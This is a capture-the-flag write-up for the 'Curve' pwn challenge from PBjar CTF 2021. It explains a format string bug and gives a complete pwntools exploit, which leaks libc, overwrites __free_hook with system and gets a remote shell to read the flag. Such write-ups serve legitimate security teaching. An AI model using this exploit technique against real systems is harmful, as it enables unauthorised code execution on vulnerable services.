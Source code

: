 ## Curve

> Points: 398
>
> Solves: 28

### Description:
One of the hardest parts of making a contest is making sure that it has a good curve aka a good problem difficulty distribution. This lazily made problem was made to make the beginning pwn curve a little less steep. 

Connect with "nc 143.198.127.103 42004".

Author: Rythm

### Attachments:
```
curve.zip
```

## Analysis:

This binary can be input 3 times, the first time(`Input 1`) it is output with `puts`, the second time(`Input 2`) there is no output, and the third time(`Input 3`) it is output directly with `printf`. Therefore, there is a vulnerability of `FSB (Format String Bug)` in the third input.
However, since this binary is `Full RELRO`, `GOT` cannot be rewritten with `FSB`. The method of rewriting the return address with `FSB` does not have enough read input size.
Also, since the third input is written to the area allocated by `malloc` in the heap, the address that can be used by `FSB` cannot be specified.

```c
undefined8 main(void)

{
  char *__format;
  long in_FS_OFFSET;
  char local_98 [136];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  __format = (char *)malloc(0x80);
  puts("Oh no! Evil Morty is attempting to open the central finite curve!");
  puts("You get three inputs to try to stop him.\n");
  puts("Input 1:");
  read(0,local_98,0xb0);
  puts(local_98);
  puts("Input 2:");
  read(0,local_98,0x80);
  puts("\nInput 3:");
  read(0,__format,0x80);
  printf(__format);　　　　　　　　　<=========== There is a `FSB` vulnerability here
  free(__format);
  puts("\nLol how could inputting strings stop the central finite curve.");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

The result of checksec. We can see that it is `Full RELRO`.
```bash
$ checksec curve
[*] '/home/mito/CTF/PBjar_CTF_2021/Pwn_Curve/curve/curve'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Since the character string input in `Input 2` is output as `0x4141414141414141` at the 8th position of `Input 3`, We can see that the value of `index` is `8`.
```bash
Input 2:
AAAAAAAA

Input 3:
BBBBBBBB,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p
BBBBBBBB,0x55555555a2a0,0x80,0x7ffff7ef5e8e,0xa,0x7ffff7fc5be0,(nil),0x55555555a2a0,0x4141414141414141,0xa,(nil),(nil),(nil),(nil),(nil)

```

## Solution:

First, the libc address leak can be done by entering a `0x98` size string in `Input 1` to leak the address `__libc_start_main + 234`. We can calculate the base address of libc.

```bash
gdb-peda$ x/80gx 0x7fffffffdec0
0x7fffffffdec0:	0x0000000000000000	0x000055555555a2a0
0x7fffffffded0:	0x4141414141414141	0x4141414141414141
0x7fffffffdee0:	0x4141414141414141	0x0000000000000a61
0x7fffffffdef0:	0x0000000000000000	0x0000000000000000
0x7fffffffdf00:	0x0000000000000000	0x0000000000000000
0x7fffffffdf10:	0x0000000000f0b5ff	0x00000000000000c2
0x7fffffffdf20:	0x00007fffffffdf47	0x0000555555555325
0x7fffffffdf30:	0x0000000000000000	0x0000000000000000
0x7fffffffdf40:	0x00005555555552e0	0x00005555555550b0
0x7fffffffdf50:	0x00007fffffffe050	0x6b35ac597c192200
0x7fffffffdf60:	0x00005555555552e0	0x00007ffff7e2dd0a  <=== Leak this `0x00007ffff7e2dd0a (__ libc_start_main + 234)`
0x7fffffffdf70:	0x00007fffffffe058	0x0000000100000000
```

Shell startup uses the `free (__ format)` call at the end of the binary. I use FSB to write the address of the `system` function in `__free_hook`.
At this time, first write `/bin/sh` so that it is in the form of `free('/bin/sh; FSB string')`. Then, when we call free (), it will be in the form of `system(/bin/sh; ...')`, so we can start the shell.

Also, `Input 2` writes the address of `__free_hook`, and `INPUT 3` writes the character string of `FSB`. Since the input size of `Input 2` and` Input 3` is as large as `0x80`, we can write the same character string created by `fmtstr_payload` to `Input 2` and` Input 3` as shown below.

```python
index = 8
writes = {free_hook: system_addr}
buf = b"/bin/sh;" + fmtstr_payload(index+1, writes, numbwritten=8, write_size='short')
```

`fmtstr_payload` creates a string like the one below.
```bash
    00000000  2f 62 69 6e  2f 73 68 3b  25 36 35 30  39 36 63 25  │/bin│/sh;│%650│96c%│
    00000010  31 34 24 6c  6c 6e 25 33  33 31 39 39  63 25 31 35  │14$l│ln%3│3199│c%15│
    00000020  24 68 6e 25  33 30 36 39  33 63 25 31  36 24 68 6e  │$hn%│3069│3c%1│6$hn│
    00000030  70 8e fc f7  ff 7f 00 00  74 8e fc f7  ff 7f 00 00  │p···│····│t···│····│
    00000040  72 8e fc f7  ff 7f 00 00  0a                        │r···│····│·│
```

## Exploit code:
```python
from pwn import *

context(os='linux', arch='amd64')
#context.log_level = 'debug'

BINARY = './curve'
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  HOST = "143.198.127.103"
  PORT = 42004
  s = remote(HOST, PORT)
  libc = ELF("./libc-2.31.so")
else:
  s = process(BINARY)
  libc = elf.libc
  #s = process(BINARY, env={'LD_PRELOAD': './libc-2.31.so'})
  #libc = ELF("./libc-2.31.so")

# libc leak
s.sendlineafter("Input 1:\n", "A"*0x98)
s.recvuntil("A"*0x98)
libc_leak = u64(s.recvuntil("\nI")[:-2] + b"\x00\x00")
libc_base = libc_leak - libc.sym.__libc_start_main - 234
free_hook = libc_base + libc.sym.__free_hook
system_addr = libc_base + libc.sym.system
print("libc_leak =", hex(libc_leak))
print("libc_base =", hex(libc_base))

index = 8

# Write system address in __free_hook to call system('/bin/sh')
writes = {free_hook: system_addr}
buf = b"/bin/sh;" + fmtstr_payload(index+1, writes, numbwritten=8, write_size='short')

s.sendlineafter("2:\n", buf)
s.sendlineafter("3:\n", buf)

s.interactive()
```

## Results:
```bash
mito@ubuntu:~/CTF/PBjar_CTF_2021/Pwn_Curve/curve$ python3 solve_fmtstr.py r
[*] '/home/mito/CTF/PBjar_CTF_2021/Pwn_Curve/curve/curve'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 143.198.127.103 on port 42004: Done
[*] '/home/mito/CTF/PBjar_CTF_2021/Pwn_Curve/curve/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc_leak = 0x7f2d588ced0a
libc_base = 0x7f2d588a8000
[*] Switching to interactive mode
/bin/sh;
...
$ id
uid=1000(user) gid=1000(user) groups=1000(user)
$ ls -l
total 2028
lrwxrwxrwx   1 root root       7 Aug 27 07:16 bin -> usr/bin
drwxr-xr-x   2 root root    4096 Apr 15  2020 boot
drwxr-xr-x   5 root root     340 Sep 17 04:48 dev
drwxr-xr-x   1 root root    4096 Sep 17 04:48 etc
-rwxr-xr-x   1 root root      64 Sep 17 04:28 flag.txt
drwxr-xr-x   1 root root    4096 Sep 17 04:47 home
-rwxr-xr-x   1 root root  177928 Sep 17 04:28 ld-2.31.so
lrwxrwxrwx   1 root root       7 Aug 27 07:16 lib -> usr/lib
lrwxrwxrwx   1 root root       9 Aug 27 07:16 lib32 -> usr/lib32
lrwxrwxrwx   1 root root       9 Aug 27 07:16 lib64 -> usr/lib64
-rwxr-xr-x   1 root root 1839792 Sep 17 04:28 libc-2.31.so
lrwxrwxrwx   1 root root      10 Aug 27 07:16 libx32 -> usr/libx32
drwxr-xr-x   2 root root    4096 Aug 27 07:16 media
drwxr-xr-x   2 root root    4096 Aug 27 07:16 mnt
drwxr-xr-x   2 root root    4096 Aug 27 07:16 opt
dr-xr-xr-x 262 root root       0 Sep 17 04:48 proc
drwx------   2 root root    4096 Aug 27 07:27 root
drwxr-xr-x   5 root root    4096 Aug 27 07:27 run
lrwxrwxrwx   1 root root       8 Aug 27 07:16 sbin -> usr/sbin
drwxr-xr-x   2 root root    4096 Aug 27 07:16 srv
dr-xr-xr-x  13 root root       0 Sep 17 04:48 sys
drwxrwxrwt   1 root root    4096 Sep 17 04:38 tmp
drwxr-xr-x   1 root root    4096 Aug 27 07:16 usr
drwxr-xr-x   1 root root    4096 Aug 27 07:27 var
$ cat flag.txt
flag{n0w_y0ur3_3v1l_m0rty_t00_s00n3r_0r_l4t3r_w3_4ll_4r3_s4dg3}
```

## Reference:

https://inaz2.hatenablog.com/entry/2014/04/20/041453
